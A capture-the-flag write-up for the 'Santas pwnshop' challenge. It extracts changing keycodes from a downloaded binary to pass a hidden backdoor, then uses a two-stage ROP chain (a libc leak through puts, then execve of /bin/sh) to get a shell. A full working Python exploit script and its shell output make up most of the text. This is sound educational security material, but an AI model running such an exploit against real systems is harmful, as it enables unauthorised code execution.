

# Santas pwnshop - Pwn (300)

Santa is giving out an early XMAS-gift to all the good little hackers. Theres a secret backdoor to the PWNSHOP but its protected by a very paranoid lock that automatically changes keycodes often. If we could hack that, we could grab as many XMAS-gifts as we wanted!

Service: nc 18.205.93.120 1205

Download: [T2CytbnZ9lShvuOBkDkpqLB6tjPDCvfa-pwnshop.tar.gz](https://s3.amazonaws.com/advent2018/T2CytbnZ9lShvuOBkDkpqLB6tjPDCvfa-pwnshop.tar.gz) [(mirror)](./static/T2CytbnZ9lShvuOBkDkpqLB6tjPDCvfa-pwnshop.tar.gz)

## Finding the Backdoor

Connecting to the service, we see that we have two options: get a "gift" or "leave". Getting the gift is actually a base64-encoded and compressed version of the target service binary. Once we decompile this binary we see that its actually quite simple. The service has one hidden "backdoor" function which is accessible by choosing option "666". This backdoor function checks 16 "keycodes" as shown in the IDA pro disassembly below.



It turns out these keycodes change each time you connect to the service and download the binary so we need to write an automated way of reading these out of the binary. Luckily, the keycodes are all at a fixed offset within the binary so its simple enough to compute that offset for all 16 values enter them in an automated program when we access the backdoor. Once we pass each of these checks, the program calls the function "win" as described in the next section.

## ROP

Once we start executing the "win" function, we have a buffer we can fill which will overwrite the return address and more, giving us an obvious ROP exploit technique. In this instance, the obvious answer is to setup the stack so that we call `execve("/bin/sh")`; however, both of those primitives (the address for execve and the shell string) are in libc which is randomized in memory. So before we attempt to call these addresses we need to find the location of libc in memory. I chose to do this by first sending back memory from an address I knew was in libc, and the calling "win" again to call `execve()`.

This means our first ROP payload looks like

```
buffer+0:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+4:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+8:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+12: 0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+16: 0x08048450             -- instruction for "jmp puts"
buffer+20: 0x08048703             -- "win" function address
buffer+24: 0x0804D00C             -- puts parameter 1: pointer to "read", located in libc
```

Sending this will send back a long string which starts with the address of "read", and then re-start the "win" function allowing us to send a second ROP payload. Using the returned "read" address we can compute the starting address of libc and from there the addresses of `execve()` and the string `"/bin/sh"`. With that we can construct our ROP chain as:

```
buffer+0:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+4:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+8:  0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+12: 0x080483DA             -- return to "ret" instruction (just jumps to the next return)
buffer+16: libc_start+0x000BE350  -- execve address
buffer+20: 0                      -- unused return 
buffer+24: libc_start+0x0017B8CF  -- execve parameter 1: pointer to "/bin/sh"
buffer+28: 0                      -- execve parameter 2: zero
buffer+32: 0                      -- execve parameter 3: zero
```

## Final Code

Putting all of this together, we have a python script which gets us to a shell and then `cat`'s the flag.

```python
import time
import sys
import base64
import struct
import gzip
import socket

def read_gift():
	with gzip.open('pwnshop_gift.gz','rb') as f:
		gift = f.read()
		f.close()

	with open('pwnshop_gift','wb') as f:
		f.write(gift)
		f.close()

	val0, = struct.unpack('<I',gift[0x7c0:0x7c4])
	val1, = struct.unpack('<I',gift[0x7d1:0x7d5])

	val3, = struct.unpack('<I',gift[0x7f0:0x7f4])
	val4, = struct.unpack('<I',gift[0x801:0x805])
	val5, = struct.unpack('<I',gift[0x812:0x816])
	
	val7, = struct.unpack('<I',gift[0x831:0x835])
	val8, = struct.unpack('<I',gift[0x842:0x846])
	val9, = struct.unpack('<I',gift[0x84f:0x853])
	
	val11, = struct.unpack('<I',gift[0x866:0x86a])
	val12, = struct.unpack('<I',gift[0x873:0x877])
	val13, = struct.unpack('<I',gift[0x880:0x884])
	
	val15, = struct.unpack('<I',gift[0x897:0x89b])
	val16, = struct.unpack('<I',gift[0x8aa:0x8ae])

	keycodes = [val0,val1,1,val3,val4,val5,1,val7,val8,val9,1,val11,val12,val13,1,val15,val16]
	print('keycodes:', keycodes)
	return keycodes

def readuntil(s,match):
	buf = s.recv(1024)
	while not buf.endswith(match):
		buf = buf + s.recv(1024)
	return buf

def solve(ipaddr='18.205.93.120'):

	s = socket.socket()
	s.settimeout(5)
	s.connect((ipaddr, 1205))

	buf = readuntil(s,b' > ')
	print('requesting gift')
	s.send(b'1\n')

	buf = readuntil(s,b' > ')
	print('parsing gift')
	i = buf.find(b')')
	b64_gift = buf[34:i]
	gift_zip = base64.b64decode(b''.join(b64_gift.strip().split()))
	with open('pwnshop_gift.gz','wb') as f:
		f.write(gift_zip)
		f.close()

	keycodes = read_gift()

	print('requesting backdoor')
	s.send(b'666\n')

	for i in range(16):
		buf = readuntil(s,b'Enter keycode %d: '%i)
		print('sending keycode %d:'%i, keycodes[i])
		s.send(b'%d\n'%keycodes[i])

	buf = readuntil(s,b'Enter new keycode: ')

	# 0x08048450 -> jmp _puts
	# 0x08048703 --> "win" function
	# 0x0804D00C --> read in got_plt
	ret_gadget = 0x080483da
	jmp_puts_addr = 0x08048450
	win_addr = 0x08048703
	read_got_plt_addr = 0x0804D00C

	rop = struct.pack('<IIIIIII',ret_gadget,ret_gadget,ret_gadget,ret_gadget,jmp_puts_addr,win_addr,read_got_plt_addr)

	print('sending rop1', rop)
	s.send(rop)
	buf = s.recv(4)
	read_addr, = struct.unpack('<I',buf[0:4])
	print('read address:',hex(read_addr))
	libc_start = read_addr - 0x000e5620
	print('libc_start:',hex(libc_start))

	readuntil(s,b'Enter new keycode: ')

	execve_addr = libc_start+0x000be350
	binsh_addr = libc_start+0x0017B8CF

	rop = struct.pack('<IIIIIIIII',ret_gadget,ret_gadget,ret_gadget,ret_gadget,execve_addr,0,binsh_addr,0,0)
	print('sending rop2', rop)
	s.send(rop)

	print('sleeping while shell starts ...')
	time.sleep(1)

	s.send(b'id\n')
	print(s.recv(10240).decode('ascii'))
	s.send(b'ls -al\n')
	print(s.recv(10240).decode('ascii'))
	s.send(b'cat flag\n')
	print(s.recv(10240).decode('ascii'))

if __name__ == '__main__':
	solve()
```

Which gives the following output:

```
$ ./challenge5.py 
requesting gift
parsing gift
keycodes: [7455683, 8191530, 1, 5680401, 969923, 7844951, 1, 9920583, 4155052, 3925830, 1, 9772432, 3553144, 7816110, 1, 9849761, 2991524]
requesting backdoor
sending keycode 0: 7455683
sending keycode 1: 8191530
sending keycode 2: 1
sending keycode 3: 5680401
sending keycode 4: 969923
sending keycode 5: 7844951
sending keycode 6: 1
sending keycode 7: 9920583
sending keycode 8: 4155052
sending keycode 9: 3925830
sending keycode 10: 1
sending keycode 11: 9772432
sending keycode 12: 3553144
sending keycode 13: 7816110
sending keycode 14: 1
sending keycode 15: 9849761
sending rop1 b'\xda\x83\x04\x08\xda\x83\x04\x08\xda\x83\x04\x08\xda\x83\x04\x08P\x84\x04\x08\x03\x87\x04\x08\x0c\xd0\x04\x08'
read address: 0xf7e03620
libc_start: 0xf7d1e000
sending rop2 b'\xda\x83\x04\x08\xda\x83\x04\x08\xda\x83\x04\x08\xda\x83\x04\x08P\xc3\xdd\xf7\x00\x00\x00\x00\xcf\x98\xe9\xf7\x00\x00\x00\x00\x00\x00\x00\x00'
sleeping while shell starts ...
uid=999(ctf) gid=999(ctf) groups=999(ctf)

total 2364
drwxr-xr-x 1 root ctf     4096 Jan  6 18:12 .
drwxr-xr-x 1 root root    4096 Jan  6 18:12 ..
-rwxr-x--- 1 root ctf  2403329 Jan  6 15:46 chall
-r--r----- 1 root ctf       28 Jan  6 15:46 flag
-rwxr-x--- 1 root ctf       37 Jan  6 15:46 redir.sh

AOTW{s4nt4_l0v3s_BL4CKh4ts}
```
